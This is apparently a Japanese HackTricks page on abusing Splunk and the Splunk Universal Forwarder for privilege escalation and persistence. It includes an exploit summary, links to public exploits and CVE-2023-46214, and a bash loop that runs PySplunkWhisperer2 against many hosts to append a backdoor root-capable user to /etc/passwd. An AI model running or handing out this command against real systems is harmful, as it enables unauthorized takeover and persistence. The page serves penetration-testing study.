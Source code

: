 # Splunk LPE and Persistence

<details>

<summary><strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** に参加するか、 [telegramグループ](https://t.me/peass) に参加するか、 **Twitter** 🐦 で **@carlospolopm** をフォローする。
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のGitHubリポジトリにPRを提出する。

</details>

マシンを **内部** または **外部** で **列挙** しているときに、（ポート8090で） **Splunkが実行されている**ことがわかった場合、もし **有効な資格情報**を知っている幸運があれば、Splunkサービスを **悪用** して、Splunkを実行しているユーザーとして **シェルを実行** することができます。rootで実行されている場合は、特権をrootに昇格させることができます。

また、すでにrootであり、Splunkサービスが **localhost以外でのみリスニングしていない** 場合、Splunkサービスから **パスワードファイルを盗み**、そのパスワードを **クラック** するか、新しい資格情報を追加することができます。そしてホスト上で持続性を維持します。

最初の画像では、SplunkdのWebページがどのように見えるかが示されています。



## Splunk Universal Forwarder Agent Exploit Summary

**詳細については、[https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) の投稿を確認してください**

**Exploit概要:**
Splunk Universal Forwarder Agent（UF）を標的とするエクスプロイトは、エージェントのパスワードを持つ攻撃者がエージェントを実行しているシステムで任意のコードを実行できるようにし、ネットワーク全体を危険にさらす可能性があります。

**主なポイント:**
- UFエージェントは、受信接続やコードの信頼性を検証しないため、不正なコードの実行に脆弱です。
- 一般的なパスワード取得方法には、ネットワークディレクトリ、ファイル共有、内部文書での検索が含まれます。
- 成功した悪用により、侵害されたホストでのSYSTEMまたはrootレベルへのアクセス、データの持ち出し、さらなるネットワーク浸透が可能となります。

**Exploitの実行:**
1. 攻撃者がUFエージェントのパスワードを取得します。
2. Splunk APIを使用してコマンドやスクリプトをエージェントに送信します。
3. ファイルの抽出、ユーザーアカウントの操作、システムの侵害など、可能なアクションがあります。

**影響:**
- 各ホストでSYSTEM/rootレベルの権限を持つ完全なネットワーク侵害。
- 検出を回避するためのログの無効化の可能性。
- バックドアやランサムウェアのインストール。

**悪用のための例のコマンド:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
## Splunkの特権昇格と永続性

**使用可能な公開エクスプロイト:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487

**Splunkクエリの悪用**

**詳細については、[https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)の投稿を確認してください**

**CVE-2023-46214**は、**`$SPLUNK_HOME/bin/scripts`**に任意のスクリプトをアップロードし、その後、検索クエリ**`|runshellscript script_name.sh`**を使用して、そこに保存されている**スクリプト**を**実行**できることを説明していました。
